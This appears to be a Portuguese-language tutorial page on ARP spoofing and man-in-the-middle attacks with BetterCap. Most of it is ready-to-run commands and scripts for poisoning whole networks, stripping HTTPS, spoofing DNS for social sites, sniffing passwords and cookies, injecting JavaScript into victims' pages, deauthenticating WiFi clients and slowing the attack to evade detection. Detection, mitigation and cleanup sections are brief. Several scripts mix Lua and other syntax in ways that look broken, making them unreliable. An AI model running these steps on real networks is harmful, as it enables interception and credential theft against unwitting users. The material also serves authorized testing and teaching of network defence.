

<!--
title: ARP Spoofing & MITM
desc: Demonstração prática de ataques Man-in-the-Middle (MITM) utilizando envenenamento de cache ARP em redes locais.
tags: network, arp-spoofing, mitm
readTime: 6 min
-->

<!-- ===================================================== -->
<!--      ARP Spoofing & MITM com BetterCap — Guia Prático  -->
<!-- ===================================================== -->

<p align="center">
  
  
</p>

<p align="center">
  
  
  
  
</p>

---

# 🧠 ARP Spoofing & Man-in-the-Middle (MITM) com BetterCap

> Documentação técnica e prática sobre **ARP Spoofing** e **ataques Man-in-the-Middle (MITM)** utilizando o **BetterCap**, abordando desde fundamentos de redes até cenários avançados de interceptação, manipulação e análise de tráfego.

Este material foi desenvolvido com foco **educacional e profissional**, simulando **ambientes reais de auditoria de segurança**, **pentest autorizado** e **resposta a incidentes**, explorando falhas inerentes ao protocolo ARP em redes locais.

---

## 🎯 Objetivos do Documento

- Compreender o funcionamento do **ARP Spoofing** em nível de protocolo
- Demonstrar ataques **MITM completos** com BetterCap
- Explorar **sniffing, proxy, SSL stripping e DNS spoofing**
- Apresentar **técnicas avançadas e persistentes**
- Mostrar **métodos de detecção e mitigação**
- Simular **cenários reais** (pentest, auditoria, educação e forense)

---

## 📌 Metadados

- **Data:** 2025-12-15  
- **Status:** `#developed`  
- **Categoria:** Segurança de Redes · Pentest · MITM  
- **Ferramenta Principal:** BetterCap  
- **Ambiente:** Linux · Redes Locais · WiFi  

---

## 🏷️ Tags

`#CyberSecurity` `#NetworkSecurity` `#ARPspoofing` `#MITM`  
`#BetterCap` `#Redes` `#Pentest` `#BlueTeam` `#RedTeam`

---

## ⚠️ Aviso Legal e Ético

> ⚠️ **Este conteúdo é estritamente educacional.**  
> Todas as técnicas descritas devem ser utilizadas **somente em ambientes controlados**, **laboratórios próprios** ou **com autorização explícita**.  
> O uso indevido destas técnicas pode configurar **crime**.

----
# Introdução

## O que é ARP Spoofing?

*ARP Spoofing* (também chamado de *ARP Poisoning*) é uma técnica onde um atacante envia pacotes ARP falsificados para uma rede local, associando seu endereço MAC ao endereço IP de outro dispositivo (geralmente o gateway).

## Como Funciona o MITM via ARP Spoofing?



## Vantagens do BetterCap para ARP Spoofing

- **Automatização completa**  do processo.
- **Integração nativa** com outros módulos (sniffing, proxy).
- **Capacidade de scripting** para ataques complexos.
- **Monitoramento em tempo real** do tráfego.

---
# Requisitos e Preparação

## Hardware Necessário

- Computador com pelo menos 2 interfaces de rede (ou 1 + modo monitor WiFi)
- Conexão física à rede alvo (cabo Ethernet ou WiFi)

## Software Necessário

```bash
# Instalar BetterCap
sudo apt update
sudo apt install bettercap

# Verificar interfaces de rede
ip addr show

# Verificar gateway
ip route show default
```

## Configuração do Sistema

```bash
# Habilitar forwarding de IP (ESSENCIAL)
sudo sysctl -w net.ipv4.ip_forward=1
# Ou editar /etc/sysctl.conf permanentemente

# Configurar iptables para redirecionamento
sudo iptables --flush
sudo iptables -t nat --flush
sudo iptables --zero
sudo iptables -A FORWARD -i eth0 -o eth1 -j ACCEPT
sudo iptables -A FORWARD -i eth1 -o eth0 -j ACCEPT
```

## Preparação da Rede

```bash
# Identificar alvos
sudo arp-scan --localnet

# Mapear rede
nmap -sn 192.168.1.0/24

# Identificar gateway
netstat -rn
```

---
# Configuração Inicial do BetterCap

## Configuração Básica

```bash
# Iniciar BetterCap com interface específica
sudo bettercap -iface eth0

# Verificar configurações da interface
[bettercap eth0] > get
[bettercap eth0] > net.show
```

## Configuração Específicas para ARP Spoofing

```bash
# Definir gateway (geralmente detectado automaticamente)
set arp.spoof.gateway 192.168.1.1

# Definir intervalo de envio de pacotes ARP (ms)
set arp.spoof.interval 1000

# Habilitar modo full-duplex (envenenamento bidirecional)
set arp.spoof.fullduplex true

# Definir alvos (se vazio, ataca toda a rede)
set arp.spoof.targets 192.168.1.100
# Ou múltiplos alvos:
set arp.spoof.targets 192.168.1.100,192.168.1.101
# Ou faixa:
set arp.spoof.targets 192.168.1.100-150
```

---
# Ataque ARP Spoofing Básico

## Método 1: Ataque Simples (Um Alvo)

```bash
# Iniciar BetterCap
sudo bettercap -iface eth0 -eval "
# Configurar alvo
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true

# Iniciar ARP spoofing
arp.spoof on

# Manter ativo
sleep 3600
"
```

## Método 2: Ataque em Rede Inteira

```bash
# Atacar todos os hosts da rede
sudo bettercap -iface eth0 -eval "
# Limpar alvos específicos (ataca todos)
set arp.spoof.targets 

# Configurações
set arp.spoof.fullduplex true
set arp.spoof.interval 5000  # 5 segundos entre pacotes

# Iniciar
arp.spoof on

# Monitorar
events.stream 'arp.spoof.*'
"
```

## Método 3: Com Script (Caplet)

```lua
-- arp_attack.cap
-- Ataque ARP Spoofing automatizado

print("[*] Iniciando ataque ARP Spoofing...")

-- Configurações
set arp.spoof.gateway 192.168.1.1
set arp.spoof.targets 192.168.1.100,192.168.1.101
set arp.spoof.fullduplex true
set arp.spoof.interval 3000

-- Iniciar ataque
arp.spoof on

-- Verificar status
sleep 2
arp.spoof show

-- Monitorar eventos
events.clear
on event 'arp.spoof.spoof' do |e|
    print("[+] ARP spoofed: " .. e['data']['ip'])
end

print("[*] Ataque em execução. Ctrl+C para parar.")
```

## Verificação do Ataque

```bash
# No alvo, verificar tabela ARP
arp -a
# Deve mostrar MAC do atacante para o gateway

# No atacante, verificar tráfego
[bettercap eth0] > net.show
# Os alvos devem aparecer como "spoofed"
```

---
# Man-in-the-Middle Completo

## Configuração MITM Básica

```bash
# MITM completo com sniffing
sudo bettercap -iface eth0 -eval "
# Fase 1: ARP Spoofing
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true
arp.spoof on

# Fase 2: Sniffing de tráfego
set net.sniff.output mitm.pcap
set net.sniff.local true  # Captura tráfego local também
net.sniff on

# Fase 3: Filtro para dados sensíveis
set net.sniff.regexp '(password|login|user|token|key|session)=[^&]*'

print('MITM ativo! Capturando tráfego...')
"
```

## MITM com Proxy HTTP/HTTPS

```bash
# MITM com interceptação de navegação
sudo bettercap -iface eth0 -eval "
# 1. ARP Spoofing
set arp.spoof.targets 192.168.1.100
arp.spoof on

# 2. Configurar proxies
set http.proxy.port 8080
set https.proxy.port 8081
set https.proxy.sslstrip true  # IMPORTANTE: remove SSL

# 3. Iniciar proxies
http.proxy on
https.proxy on

# 4. Sniffing para backup
net.sniff on

print('MITM com proxy ativo! Portas 8080 (HTTP) e 8081 (HTTPS)')
"
```

## MITM Avançado com Múltiplos Módulos

```lua
-- advanced_mitm.cap
-- MITM completo com múltiplas funcionalidades

print("[*] Iniciando MITM avançado...")

-- CONFIGURAÇÕES GERAIS
set $ {arp.spoof.fullduplex} true
set $ {arp.spoof.interval} 2000
set $ {arp.spoof.targets} 192.168.1.100

-- 1. ARP SPOOFING
arp.spoof on
print("[+] ARP Spoofing ativo")

-- 2. PROXIES PARA INTERCEPTAÇÃO
set $ {http.proxy.port} 8080
set $ {https.proxy.port} 8081
set $ {https.proxy.sslstrip} true
http.proxy on
https.proxy on
print("[+] Proxies HTTP/HTTPS ativos")

-- 3. SNIFFING DE TRÁFEGO
set $ {net.sniff.output} /tmp/mitm_capture.pcap
set $ {net.sniff.local} true
set $ {net.sniff.regexp} 'password|login|credit_card|ssn'
net.sniff on
print("[+] Sniffing ativo")

-- 4. DNS SPOOFING (OPCIONAL)
set $ {dns.spoof.domains} '*.facebook.com,*.twitter.com'
set $ {dns.spoof.address} 192.168.1.50
dns.spoof on
print("[+] DNS Spoofing ativo")

-- 5. MONITORAMENTO
events.clear
on event 'net.sniff.http.request' do |e|
    if e['data']['host'] then
        print("[HTTP] " .. e['data']['host'] .. e['data']['path'])
    end
end

on event 'net.sniff.http.request.body' do |e|
    if string.contains(e['data']['body'], 'password') then
        print("[!] Credenciais encontradas!")
        print("    Body: " .. e['data']['body'])
    end
end

print("[*] MITM completamente operacional. Ctrl+C para finalizar.")
```

---
# Interceptação e Manipulação de Tráfego

## Sniffing de Dados Sensíveis

```bash
# Configurar sniffing específico
set net.sniff.filter 'tcp port 80 or tcp port 443 or tcp port 21 or tcp port 25'
set net.sniff.regexp '(?i)(pass|pwd|login|user|token|credit|card|ssn|cpf)'

# Iniciar sniffing com output
set net.sniff.output captured_data.pcap
net.sniff on
```

## Interceptação HTTP com Proxy

```js
// inject.js - Script de injeção para proxy HTTP
function onLoad() {
    // Injeta conteúdo em todas as páginas
    var script = document.createElement('script');
    script.innerHTML = 'alert("Seu tráfego está sendo monitorado!");';
    document.head.appendChild(script);
    
    // Captura formulários
    var forms = document.getElementsByTagName('form');
    for(var i = 0; i < forms.length; i++) {
        forms[i].addEventListener('submit', function(e) {
            alert('Formulário submetido: ' + this.action);
        });
    }
}
```

```bash
# Configurar proxy com script de injeção
set http.proxy.script inject.js
set http.proxy.inject true
http.proxy on
```

## SSL Stripping (HTTPS para HTTP)

```bash
# Configurar SSLStrip
set https.proxy.sslstrip true
set https.proxy.ssltrip true

# Verificar se está funcionando
events.on 'https.proxy.spoof' do |e|
    print("[SSLStrip] Convertido: " .. e['data']['from'] .. " para HTTP")
end
```

## Captura de Cookies e Sessões

```bash
# Sniffing específico para cookies
set net.sniff.regexp '(Cookie|Set-Cookie|session|SESSIONID)=[^;]*'

# Monitorar eventos de cookies
events.clear
on event 'net.sniff.http.response' do |e|
    local headers = e['data']['headers']
    if headers['Set-Cookie'] then
        print("[COOKIE] " .. headers['Set-Cookie'])
    end
end
```

---
# Técnicas Avançadas de MITM

## MITM Persistente com Reconexão Automática

```lua
-- persistent_mitm.cap
-- MITM que sobrevive a reconexões

local targets = {"192.168.1.100", "192.168.1.101"}
local check_interval = 30  -- segundos

function setup_mitm()
    -- Configurar ARP spoofing
    set $ {arp.spoof.targets} table.concat(targets, ",")
    set $ {arp.spoof.fullduplex} true
    arp.spoof on
    
    -- Configurar sniffing
    set $ {net.sniff.output} persistent_capture.pcap
    net.sniff on
    
    print("[+] MITM configurado para: " .. table.concat(targets, ", "))
end

function check_connection()
    -- Verifica se os alvos estão ativos
    for _, target in ipairs(targets) do
        local result = os.execute("ping -c 1 -W 1 " .. target .. " > /dev/null")
        if result ~= 0 then
            print("[!] Alvo " .. target .. " offline")
        end
    end
end

-- Execução principal
setup_mitm()

while true do
    sleep(check_interval)
    check_connection()
    -- Reaplicar ARP spoofing periodicamente
    arp.spoof off
    sleep(1)
    arp.spoof on
end
```

## Bypass de Proteções (`iptables`, Firewalls)

```bash
# Configurar redirecionamento de portas com IPTables
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8081

# No BetterCap, usar essas portas
set http.proxy.port 8080
set https.proxy.port 8081
set http.proxy.address 0.0.0.0
```

## MITM em Redes WiFi

```bash
# Para redes WiFi, usar interface em modo monitor
sudo airmon-ng start wlan0

# Iniciar BetterCap com interface monitor
sudo bettercap -iface wlan0mon -eval "
# Primeiro, identificar clientes
wifi.recon on
sleep 10
wifi.show

# Selecionar alvo WiFi
set wifi.deauth.bssid 00:11:22:33:44:55
wifi.deauth on

# Quando vítima reconectar, aplicar MITM
set arp.spoof.targets 192.168.1.100
arp.spoof on
net.sniff on
"
```

## Ataques a Múltiplas Sub-redes

```lua
-- multi_subnet.cap
-- MITM em múltiplas sub-redes

local subnets = {
    "192.168.1.0/24",
    "10.0.0.0/24",
    "172.16.0.0/24"
}

function scan_subnet(subnet)
    print("[*] Escaneando subnet: " .. subnet)
    -- Usar net.probe para descobrir hosts
    set $ {net.probe.throttle} 50
    net.probe on subnet
    sleep(10)
    
    local hosts = net.show.hosts
    print("[+] Hosts encontrados: " .. #hosts)
    
    return hosts
end

-- Executar para cada subnet
for _, subnet in ipairs(subnets) do
    local hosts = scan_subnet(subnet)
    
    if #hosts > 0 then
        -- Aplicar MITM nos hosts
        for _, host in ipairs(hosts) do
            print("[*] Aplicando MITM em: " .. host.ip)
            set $ {arp.spoof.targets} host.ip
            set $ {arp.spoof.fullduplex} true
            arp.spoof on
            sleep(1)
        end
    end
end

print("[*] MITM ativo em múltiplas sub-redes")
```

---
# Monitoramento e Análise

## Dashboard em Tempo Real

```bash
# Iniciar BetterCap com dashboard
sudo bettercap -iface eth0 -caplet http-ui

# Acessar interface web: http://127.0.0.1:80
```

## Monitoramento por Eventos

```lua
-- monitor.cap
-- Monitoramento detalhado do MITM

events.clear

-- Monitorar ARP spoofing
on event 'arp.spoof.spoof' do |e|
    print(string.format(
        "[ARP] %s -> MAC: %s spoofed as %s",
        os.date("%H:%M:%S"),
        e['data']['mac'],
        e['data']['ip']
    ))
end

-- Monitorar tráfego HTTP
on event 'net.sniff.http.request' do |e|
    local data = e['data']
    if data['host'] and data['path'] then
        print(string.format(
            "[HTTP] %s %s%s",
            data['method'],
            data['host'],
            data['path']
        ))
    end
end

-- Monitorar credenciais
on event 'net.sniff.http.request.body' do |e|
    local body = e['data']['body']:lower()
    local patterns = {
        "password=", "pass=", "pwd=", "login=",
        "user=", "email=", "username="
    }
    
    for _, pattern in ipairs(patterns) do
        if string.find(body, pattern) then
            print("[!] POTENCIAL CREDENCIAL: " .. body)
            break
        end
    end
end

-- Monitorar conexões
on event 'net.sniff.connection.new' do |e|
    print(string.format(
        "[CONN] %s:%d -> %s:%d (%s)",
        e['data']['src_ip'],
        e['data']['src_port'],
        e['data']['dst_ip'],
        e['data']['dst_port'],
        e['data']['protocol']
    ))
end

print("[*] Monitoramento ativo. Pressione Ctrl+C para sair.")
events.stream
```

## Análise de Tráfego Capturado

```bash
# Exportar dados capturados
[bettercap eth0] > net.show --format csv > hosts.csv
[bettercap eth0] > net.show --format json > hosts.json

# Analisar PCAP com outras ferramentas
tshark -r mitm_capture.pcap -Y "http.request"
tshark -r mitm_capture.pcap -T fields -e http.request.uri
```

## Métricas e Estatísticas

```bash
# Habilitar estatísticas
set net.sniff.stats true

# Ver estatísticas
[bettercap eth0] > stats.show

# Limpar estatísticas
[bettercap eth0] > stats.clear
```

---
# Detecção e Mitigação

## Como Detectar ARP Spoofing

```bash
# Ferramentas de detecção
# 1. arpwatch
sudo arpwatch -i eth0

# 2. arpon
sudo arpon -i eth0 -d

# 3. Verificação manual
arp -a
# Procurar por múltiplos IPs com mesmo MAC

# 4. Script de detecção
#!/bin/bash
while true; do
    arp -an | awk '{print $2, $4}' | sort | uniq -d
    sleep 5
done
```

## Mitigação no Alvo

```bash
# 1. ARP estático
sudo arp -s 192.168.1.1 00:11:22:33:44:55

# 2. Ferramentas de proteção
# Instalar arpON
sudo apt install arpon
sudo arpon -i eth0 -r

# 3. Configuração de rede
# Desabilitar ARP em interfaces não confiáveis
echo 1 > /proc/sys/net/ipv4/conf/eth0/arp_ignore
echo 2 > /proc/sys/net/ipv4/conf/eth0/arp_announce
```

## Proteção na Infraestrutura

```bash
# 1. Port Security em switches
# Configurar número máximo de MACs por porta

# 2. DHCP Snooping
# Em switches gerenciados

# 3. Detecção em gateway
# Script no gateway para monitorar ARP
#!/bin/bash
tcpdump -i eth0 -n arp | grep -v "who-has $(hostname)"
```

## Como o BetterCap Pode ser Detectado

```bash
# Sinais de presença do BetterCap:
# 1. Tráfego ARP excessivo
# 2. Portas 8080/8081 abertas
# 3. Processo bettercap em execução
# 4. Arquivos em ~/.bettercap/
```

---
# Cenários Práticos

## Cenário 1: Auditoria de Rede Corporativa

```lua
-- corporate_audit.cap
-- MITM para auditoria de segurança

print("[*] Iniciando auditoria de rede corporativa")

-- Configurar alvos (servidores críticos)
local critical_servers = {
    "192.168.1.10",  -- Servidor de arquivos
    "192.168.1.20",  -- Servidor de banco de dados
    "192.168.1.30",  -- Servidor web
    "192.168.1.40"   -- Servidor de email
}

-- Configurar MITM
set $ {arp.spoof.targets} table.concat(critical_servers, ",")
set $ {arp.spoof.fullduplex} true
set $ {arp.spoof.interval} 5000  # Mais lento para evitar detecção
arp.spoof on

-- Sniffing específico para tráfego corporativo
set $ {net.sniff.filter} "tcp port 143 or tcp port 993 or tcp port 25 or tcp port 465 or tcp port 3306 or tcp port 5432"
set $ {net.sniff.output} corporate_audit.pcap
net.sniff on

-- Monitorar tráfego sensível
events.on 'net.sniff.tcp.payload' do |e|
    local payload = e['data']['payload']:lower()
    if string.find(payload, "select") or 
       string.find(payload, "insert") or
       string.find(payload, "update") then
        print("[SQL] Possível query detectada")
    end
end

print("[*] Auditoria em andamento por 15 minutos...")
sleep(900)
print("[*] Auditoria concluída")
```

## Cenário 2: Teste de Aplicação Web

```bash
# MITM focado em aplicação web específica
sudo bettercap -iface eth0 -eval "
# Alvo: usuário testando aplicação web
set arp.spoof.targets 192.168.1.100
arp.spoof on

# Proxy para interceptar requisições web
set http.proxy.port 8080
set https.proxy.port 8081
set https.proxy.sslstrip true
http.proxy on
https.proxy on

# Script para modificar requisições
set http.proxy.script web_test.js

# Sniffing para capturar sessões
set net.sniff.regexp 'sessionid|token|auth'
net.sniff on

print('Pronto para testar aplicação web em 192.168.1.100')
"
```

## Cenário 3: Demonstração Educacional

```lua
-- educational_demo.cap
-- MITM para demonstração educacional

print("=== DEMONSTRAÇÃO EDUCACIONAL MITM ===")
print("Este é um ataque simulado para fins educacionais")
print("Alvo: 192.168.1.100")
print("")

-- Configuração lenta e visível
set $ {arp.spoof.targets} 192.168.1.100
set $ {arp.spoof.interval} 10000  # Muito lento para demonstração
arp.spoof on

print("[1/4] ARP Spoofing ativo")
print("     Gateway: 192.168.1.1")
print("     Alvo: 192.168.1.100")
print("")

-- Sniffing apenas de tráfego HTTP (para demonstração)
set $ {net.sniff.filter} "tcp port 80"
net.sniff on

print("[2/4] Sniffing ativo (apenas porta 80)")
print("")

-- Proxy HTTP para demonstração
set $ {http.proxy.port} 8080
http.proxy on

print("[3/4] Proxy HTTP ativo na porta 8080")
print("")

-- Demonstração de injeção simples
set $ {http.proxy.injectjs} "console.log('MITM Demo: Tráfego interceptado');"
set $ {http.proxy.inject} true

print("[4/4] Injeção JavaScript ativa")
print("")
print("=== DEMONSTRAÇÃO EM ANDAMENTO ===")
print("Verifique o console do navegador da vítima")
print("Pressione Ctrl+C para finalizar")
print("")

events.stream
```

## Cenário 4: Response a Incidente

```bash
# MITM para análise forense após incidente
sudo bettercap -iface eth0 -eval "
# Configurar para capturar máximo de informações
set net.sniff.output forensic_capture.pcap
set net.sniff.local true
set net.sniff.filter 'not arp and not icmp'

# ARP spoofing em toda a rede para monitoramento
set arp.spoof.targets  # Vazio = toda a rede
set arp.spoof.fullduplex true
arp.spoof on

# Iniciar captura
net.sniff on

# Log detalhado
set * {event.type} >> /tmp/forensic.log

print('Captura forense iniciada. Todo tráfego sendo registrado.')
print('Arquivo: forensic_capture.pcap')
print('Log: /tmp/forensic.log')
"
```

---
# Teste Prático Básico

## Passo 1: Identificar o Alvo

```bash
# Iniciar o bettercap na interace wlan0
sudo bettercap -iface wlan0

# Inciar o modo de reconhecimento
net.probe on

# Mostrar resultado
net.show
```


O alvo usado será o ip 192.168.100.74

## Passo 2: Iniciar o ARP Spoofing

```bash
set arp.spoof.fullduplex true

# Definir alvo
set arp.spoof.targets 192.168.100.74

# Iniciar arp spoofing
arp.spoof on
```

## Visualizar o Tráfego no WireShark

Use o filtro

```bash
ip addr == 192.168.100.74

# Ou
ip addr == 192.168.100.74 and dns # para visualizar tráfego dns
ip addr == 192.168.100.74 and http # para visualizar tráfego http
# etc...
```


Na imagem de exemplo foi possível capturar o tráfego HTTP de outro dispositivo, e foi possível visualizar o login e senha em plain text feito por outro dispositivo.

---
# Comandos de Limpeza Pós-Ataque

```bash
# Restaurar ARP tables nas vítimas
# (Execute nas vítimas após teste)
sudo arp -d 192.168.1.1
sudo dhclient -r eth0 && sudo dhclient eth0

# No atacante, limpar tudo
[bettercap eth0] > arp.spoof off
[bettercap eth0] > net.sniff off
[bettercap eth0] > http.proxy off
[bettercap eth0] > https.proxy off
[bettercap eth0] > quit

# Limpar iptables
sudo iptables --flush
sudo iptables -t nat --flush

# Desabilitar IP forwarding
sudo sysctl -w net.ipv4.ip_forward=0

# Remover arquivos de captura
sudo rm -f *.pcap
sudo rm -f /tmp/bettercap.log
```

## Template de Relatório

```markdown
# Relatório de Teste MITM com BetterCap

## Informações Gerais
- Data: [DATA]
- Responsável: [NOME]
- Escopo: [REDE/IPs TESTADOS]

## Metodologia
1. Reconhecimento de rede
2. Configuração do BetterCap
3. Execução do ARP spoofing
4. Interceptação de tráfego
5. Análise dos resultados

## Resultados
- Vulnerabilidades encontradas: [LISTA]
- Dados expostos: [TIPOS DE DADOS]
- Recomendações: [AÇÕES CORRETIVAS]

## Anexos
- [ ] Logs do BetterCap
- [ ] Capturas de tráfego (sanitizadas)
- [ ] Evidências de vulnerabilidades
```

---
# Conclusão

O ARP Spoofing com BetterCap é uma técnica poderosa que demonstra falhas fundamentais na segurança de redes locais. Quando usado corretamente:

**Para Profissionais de Segurança:**

- Ferramenta essencial para auditorias
- Excelente para educação e conscientização
- Valioso para testes de intrusão autorizados

**Para Administradores de Rede:**

- Entender como os ataques funcionam
- Implementar medidas de proteção adequadas
- Monitorar redes para atividades suspeitas

**Próximos passos recomendados:**

1. Montar um laboratório próprio para prática
2. Estudar técnicas de detecção e prevenção
3. Participar de comunidades de segurança
4. Obter certificações relevantes

---
# Referências

- [Documentação Oficial do BetterCap](https://www.bettercap.org/)
- [OWASP Guide to MITM Attacks](https://owasp.org/www-community/attacks/Man-in-the-middle_attack)
- [Certificação Ethical Hacker (CEH)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)

